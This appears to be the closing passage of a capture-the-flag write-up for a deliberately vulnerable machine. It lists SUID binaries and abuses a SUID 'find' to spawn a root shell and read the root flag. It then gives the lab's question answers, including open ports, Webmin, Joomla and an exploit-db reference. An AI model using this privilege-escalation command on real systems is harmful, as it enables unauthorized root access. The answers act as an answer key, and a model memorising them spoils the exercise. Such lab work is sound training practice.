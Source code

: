    394226     16 -rwsr-xr-x   1 root     root        13960 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   416088     16 -rwsr-xr--   1 root     www-data    13692 Apr  3  2019 /usr/lib/apache2/suexec-custom
   416085     16 -rwsr-xr--   1 root     www-data    13692 Apr  3  2019 /usr/lib/apache2/suexec-pristine
   260101     48 -rwsr-xr--   1 root     messagebus    46436 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   264108    504 -rwsr-xr-x   1 root     root         513528 Mar  4  2019 /usr/lib/openssh/ssh-keysign
   260699      8 -rwsr-xr-x   1 root     root           5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   265132     36 -rwsr-xr-x   1 root     root          36288 Mar 26  2019 /usr/bin/newgidmap
   260428    228 -r-sr-xr-x   1 root     root         232196 Feb  8  2016 /usr/bin/find
   278157     52 -rwsr-sr-x   1 daemon   daemon        50748 Jan 15  2016 /usr/bin/at
   263308     40 -rwsr-xr-x   1 root     root          39560 Mar 26  2019 /usr/bin/chsh
   263304     76 -rwsr-xr-x   1 root     root          74280 Mar 26  2019 /usr/bin/chfn
   263305     52 -rwsr-xr-x   1 root     root          53128 Mar 26  2019 /usr/bin/passwd
   260641     36 -rwsr-xr-x   1 root     root          34680 Mar 26  2019 /usr/bin/newgrp
   263253    160 -rwsr-xr-x   1 root     root         159852 Jun 11  2019 /usr/bin/sudo
   264477     20 -rwsr-xr-x   1 root     root          18216 Mar 27  2019 /usr/bin/pkexec
   263306     80 -rwsr-xr-x   1 root     root          78012 Mar 26  2019 /usr/bin/gpasswd
   265133     36 -rwsr-xr-x   1 root     root          36288 Mar 26  2019 /usr/bin/newuidmap
```

find stands out:
https://gtfobins.github.io/gtfobins/find/
```
stoner@Vulnerable:~$ find . -exec /bin/sh -p \; -quit
# id
uid=1000(stoner) gid=1000(stoner) euid=0(root) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
# cat /root/root.txt
It wasn't that hard, was it?
```

# Questions:
## Questions #1
1. File extension after anon login
.info.txt is a txt file.

2. What is on the highest port?
From the nmap -p-: ssh on 55007

3. What's running on port 10000?
nmap -p-: Webmin

4. Can you exploit the service running on that port? (yay/nay answer)
The answer is nay, but according to http://www.securityspace.com/smysecure/catid.html?ctype=cve&id=CVE-2019-9624 there is a RCE for authenticated users.

5. What's CMS can you access?
joomla on port 80 under /joomla

6. The interesting file name in the folder?
Using https://www.exploit-db.com/exploits/47204
log.txt

##Questions 2
7. Where was the other users pass stored(no extension, just the name)?
backup

8. user.txt
```